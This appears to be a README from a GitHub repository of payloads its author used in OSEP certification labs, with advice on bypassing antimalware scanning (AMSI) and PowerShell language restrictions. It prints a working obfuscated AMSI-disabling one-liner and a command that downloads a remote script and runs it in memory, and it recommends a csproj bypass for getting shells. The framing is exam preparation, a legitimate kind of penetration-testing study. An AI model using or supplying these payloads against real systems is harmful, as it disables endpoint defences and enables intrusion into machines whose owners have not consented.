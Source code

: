 # OSEP-Stuff

This repo contains all the payloads I had used in the OSEP challenge labs as well as my first(and coming tomorrow second exam attempt). For backround, I got plunged into the course like a month ago, and since I was off semester break and have the oscp, crtp as well as a fairly deep knowledge of Active Directory exploitation and was able to dedicate time from 10/11 am until 2 am on the osep; I felt confident to take it on! I am happy to fail it but feel that considering the monster effort I put in as well as my previous knowledge that it should go hopefully well!

I skipped about half the course. Certain sections I didnt really pay attention to, such as DotNetToJS since I didnt see a need for it. Other sections I skipped through such as network evasion, kisok breakout, and some of the Active Directory stuff since I was intimately fimilar with it all. The most time I spent was building robust, and simple payloads. I didnt develop many(as you can see from this repo) but these all sufficently work to either getting you a shell back without amsi or CLM; worst case is theres still amsi, in which a one liner will do. I just wrote the same code in different format, just connect to my smbshare on kali and execute a csproj file. 

Sheldons FullBypass.csproj covered by every need at any moment when I needed a powershell session without amsi or clm; all I had to do was execute it and I was golden. The newest things for me were Linux, SSH and MSSQL exploitation. I reccomend deeply engaging with labs 3 and 4 as those will cover these abundantly. 

##Antivirus Bypass

I only used two payloads if sheldons fullbypass.csproj didnt work or if I didnt need to bypass clm and so only needed to bypass amsi: 

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (('b'+("{1}{0}"-f':1','lE'))+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f(('U'+'ti')+'l'),'A',('Am'+'si'),(('.'+'Man')+('ag'+'e')+('me'+'n')+'t.'),('u'+'to'+(("{1}{0}"-f 'io','mat')+'n.')),'s',(('Sys'+'t')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+('ms'+'i')),'d',('I'+('n'+'itF')+('a'+'ile'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+('t'+'at')),'i',(('N'+'on')+('Pu'+'bl')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
This payload I had gotten from the crtp course and what not. The next payload I used is in my amsi bypass folder. That one can simply be executed via 
```powershell
IWR -UseBasicParsing http://ip/sidestep.ps1 | IEX
```
You have two options; you either have no CLM and thus using the above script or one liner from the CRTP will instantly destroy amsi or you do have CLM, in which case you should use the FullBypass.csproj payload. It will work 70% of the time but sometimes AMSI is still present and so you will need to refer back to the one liner from above and keep running it till no more amsi. Simple, easy and clean. It really doesnt have to be all that complex and powershell reflection and all that to be able to quickly bypass amsi & clm
